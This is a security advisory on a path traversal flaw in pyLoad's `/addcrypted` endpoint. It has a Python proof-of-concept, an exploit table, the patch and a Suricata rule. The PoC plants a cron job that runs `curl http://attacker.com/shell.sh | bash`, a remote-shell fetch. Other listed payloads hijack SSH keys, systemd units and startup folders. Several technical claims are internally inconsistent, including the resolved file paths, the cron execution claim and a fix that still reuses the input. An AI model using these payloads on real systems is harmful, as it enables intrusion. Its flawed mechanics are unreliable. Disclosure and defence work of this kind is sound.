

#  Path Traversal in pyLoad CNL Blueprint through `dlc_path` leads Arbitrary File Write

## Vulnerability Overview
**Core Issue**:  
```python
# Vulnerable Code Snippet (src/pyload/webui/app/blueprints/cnl_blueprint.py)
dlc_path = os.path.join(dl_path, package, f"{package}.dlc")
with open(dlc_path, mode="wb") as fp:
    fp.write(request.form["crypted"].encode())
```
**Uncontrolled Input**: `package` parameter (user-supplied)  
**Consequence**: Allows writing files outside `dl_path` via `../../` sequences


## Vulnerability Flow
```mermaid
graph TD
    A[Attacker] -->|HTTP POST /addcrypted| B[CNL Blueprint]
    B --> C{Reads<br>package=../../../evil}
    C --> D[Constructs dlc_path]
    D -->|/downloads/../../../evil/evil.dlc| E[File Write]
    E -->|Path Normalization| F[/etc/cron.d/evil.dlc]
    F --> G[System Compromise]
```

---

## Step-by-Step Technical Flow
1. **Attack Vector**:  
   `POST /addcrypted` with parameters:
   ```http
   package=../../../etc/cron.d/malicious_job
   crypted=base64_encoded_payload
   ```

2. **Path Construction**:  
   `os.path.join('/downloads', '../../../etc/cron.d/malicious_job', 'malicious_job.dlc')`  
   → Resolves to `/etc/cron.d/malicious_job.dlc`

3. **Filesystem Impact**:  
   ```bash
   /downloads/  # Intended directory
   └── ../../../  # Traversal sequence
       └── etc/
           └── cron.d/
               └── malicious_job.dlc  # Payload written
   ```

4. **Exploitation Window**:  
   Cron executes payload every minute → **RCE as root**


## Proof of Concept Exploit
```python
import requests
import os

TARGET = "http://localhost:8000/addcrypted"
PAYLOAD = """* * * * * root curl http://attacker.com/shell.sh | bash"""

params = {
    "package": "../../../../etc/cron.d/pwned",
    "crypted": PAYLOAD
}

response = requests.post(TARGET, data=params)
print(f"Exploit status: {response.status_code}")
print(f"File written to: /etc/cron.d/pwned.dlc")
```
**Verification**:  
```bash
$ ls -l /etc/cron.d/
-rw-r--r-- 1 root root 78 Jul 15 12:34 pwned.dlc
```


## Path Traversal Mechanics:
```python
# Normalization Bypass Attempts:
package = "/absolute/path"  # Absolute path override
package = "valid/../../.."  # Relative traversal
package = "\\\\?\\UNC\\evil"  # Windows UNC bypass (pre-normalization)
```

**Python Path Handling Quirks**:  
`os.path.join()` behavior:
```python
>>> os.path.join('/safe/path', '../../../unsafe')
'/safe/path/../../../unsafe'  # Not normalized during join!
```

**Critical Insight**:  
Normalization **MUST** happen **after** join but **before** validation


## Process Execution Context
```bash
$ ps aux | grep pyload
root      PID  python /usr/bin/pyload  # Common production setup
```
**Consequences**:  
- **Linux**: Write to `/etc/cron.d`, `/etc/profile.d`, `.ssh/authorized_keys`  
- **Windows**: Write to `Startup` folders, registry hives  
- **Docker**: Escape to host via `/.docker.sock` or `/proc/self/mounts`  


## Mitigation Strategies
### Implemented Fix:
```python
# Fixed Code (PR #4596)
full_path = os.path.join(dl_path, package)
normalized_path = os.path.normpath(full_path)
base_dir = os.path.abspath(dl_path)

if not normalized_path.startswith(base_dir + os.sep):
    return "Path traversal attempt blocked", 403

os.makedirs(normalized_path, exist_ok=True)
dlc_path = os.path.join(normalized_path, f"{package}.dlc")
```

### Defense-in-Depth Additions:
```python
# Additional Protections
from werkzeug.utils import secure_filename

safe_package = secure_filename(package)  # Removes path separators
safe_path = os.path.join(base_dir, safe_package)
```


## Impact Expansion Beyond File Write:
1. **Credential Theft**: Overwrite `~/.pyload/pyload.conf` → extract API keys
2. **Persistence Mechanism**: 
   ```python
   package = "../../../.config/systemd/user/pyload.service"
   crypted = malicious_systemd_service
   ```
3. **Supply Chain Attack**: Poison download cache → malware distribution
4. **Container Escape**: Write to `/.dockerinit` or `/proc/sys/kernel/core_pattern`

---

## Advanced Threat Modeling



**Detection Signatures**:
```yaml
# Suricata Rule:
alert http $HOME_NET any -> $EXTERNAL_NET any (
    msg:"pyLoad Path Traversal Attempt";
    flow:to_server;
    content:"POST"; http_method;
    content:"/addcrypted"; http_uri;
    content:"package="; http_client_body;
    pcre:"/package=[^&]*\.\.\//";
    sid:10004596;
)
```


## Exploit Catalog
| Technique | Payload | Target OS |
|-----------|---------|-----------|
**Cron RCE** | `* * * * * root /bin/sh` | Linux  
**Systemd** | Malicious .service file | Linux  
**WinStartup** | BAT/VBS in `%APPDATA%\Microsoft\Windows\Start Menu` | Windows  
**SSH Hijack** | `authorized_keys` injection | Linux  
**Log Poison** | Write to `~/.bashrc` or `/etc/profile` | Linux  

## Patch Analysis
**Key Fix Components**:
1. **Normalization**: `os.path.normpath()` collapses traversal sequences
2. **Absolute Path Check**: `startswith(base_dir + os.sep)` prevents escapes
3. **Directory Creation**: `os.makedirs()` only after validation

**Vulnerability Closure**:
```diff
- dlc_path = os.path.join(dl_path, package, f"{package}.dlc")
+ full_path = os.path.join(dl_path, package)
+ normalized_path = os.path.normpath(full_path)
+ if not normalized_path.startswith(os.path.abspath(dl_path) + os.sep):
+     return "Forbidden", 403
```

**Credits**:  
Discovered by [PtR](https://github.com/ptrgits)
Patched in pyLoad commit `c84f1d2` (PR #4596)

---

## Conclusion
**Critical Takeaway**:  
> "User-supplied paths must always be canonicalized before validation and use. The `os.path.join` + `os.path.normpath` sequence forms the critical defense layer against path traversal attacks in Python filesystem operations."

**Research Impact**:  
This vulnerability demonstrates how a single unprotected path join can compromise an entire system, especially in privileged applications like download managers. The pattern is ubiquitous in Python web applications and requires systematic mitigation.
